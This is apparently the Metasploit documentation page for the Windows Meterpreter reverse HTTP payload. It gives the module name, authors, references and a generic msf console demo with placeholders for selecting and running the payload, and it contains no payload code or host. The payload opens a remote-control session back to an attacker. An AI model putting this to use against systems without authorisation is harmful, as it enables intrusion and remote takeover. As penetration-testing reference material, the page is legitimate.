 ## Windows Meterpreter (Reflective Injection), Windows Reverse HTTP Stager (wininet)

Inject the meterpreter server DLL via the Reflective Dll 
Injection payload (staged). Tunnel communication over HTTP 
(Windows wininet)


## Module Name
payload/windows/meterpreter/reverse_http

## Authors
* skape
* sf
* OJ Reeves
* hdm


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/meterpreter/reverse_http
msf payload(reverse_http) > show targets
   ... a list of targets ...
msf payload(reverse_http) > set TARGET <target-id>
msf payload(reverse_http) > show options
   ... show and set options ...
msf payload(reverse_http) > run
```
    
    